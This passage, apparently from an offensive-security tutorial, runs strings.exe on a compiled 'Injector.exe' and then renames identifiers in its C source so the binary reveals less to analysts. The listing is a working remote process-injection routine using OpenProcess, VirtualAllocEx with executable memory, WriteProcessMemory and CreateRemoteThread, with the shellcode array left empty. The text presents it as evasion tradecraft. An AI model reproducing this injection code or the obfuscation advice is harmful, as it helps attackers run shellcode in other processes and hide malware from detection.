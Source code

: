 Let’s use strings to see exactly what was leaked when this source code is compiled.

```powershell
C:\>.\strings.exe "\Injector.exe"

Strings v2.54 - Search for ANSI and Unicode strings in binary images.
Copyright (C) 1999-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

!This program cannot be run in DOS mode.
>FU
z';
z';
...
[snip]
...
Y_^[
leaked
shellcode
2_^[]
...
[snip]
...
std::_Adjust_manually_vector_aligned
"invalid argument"
string too long
This was leaked in the strings
Handle obtained for
Buffer Created
Process written with buffer
Closing handle
std::_Allocate_manually_vector_aligned
bad allocation
Stack around the variable '
...
[snip]
...
8@9H9T9X9\\9h9|9
:$:(:D:H:
@1p1
```

Notice that all of the iostream was written to strings, and even the shellcode byte array was leaked. This is a smaller program, so imagine what a fleshed-out and un-obfuscated program would look like!

We can remove comments and replace the meaningful identifiers to resolve this problem.

```c
#include "windows.h"

int main(int argc, char* argv[])
{
	unsigned char awoler[] = "";

	HANDLE awerfu;
	HANDLE rwfhbf;
	PVOID iauwef;

	awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
	rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
	CloseHandle(awerfu);

```